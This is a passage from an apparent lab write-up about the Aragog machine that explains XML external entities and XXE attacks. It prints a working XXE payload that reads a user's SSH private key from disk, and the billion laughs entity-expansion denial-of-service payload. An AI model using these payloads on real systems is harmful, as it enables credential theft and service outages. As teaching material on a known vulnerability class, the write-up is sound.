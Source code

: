 In the code above, the entity `petName` is substituted with the value `file:///folder/pet1.txt`. When the XML is parsed, this entity is replaced with the respective value. The use of the keyword `SYSTEM` instructs the parser that the entity value should be read from the URI that follows. This can be very useful when a web application needs to refer to an entity value many times.

### What is an XXE attack?

As demonstrated in the above, using XML entities and the `SYSTEM` keyword causes an XML parser to read data from a URI and substitutes it within the document. This means that an attacker can send their own values and force the application to display it.

The example below is the XML document that I used to retrieve the SSH key of the **florian** user on Aragog.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>

<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```
Here you can see I'm using the `SYSTEM` keyword to reference the URI of a file on the local disk. The XML parser reads the file, and displays it back to the user.

## Known use cases
XXE was also most notably used in a Denial of Service (DOS) attack called the **billion laughs attack**, where the XXE payload contains multiple references to itself.

The example below defines 10 entities, each defined as consisting of 10 of the previous entity. When processed by the XML processor on the receiving server, this expands to **one billion** copies of the first entity. When this file is processed by the web server, all available resources are consumed attempting to do so, resulting in denial of service.

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
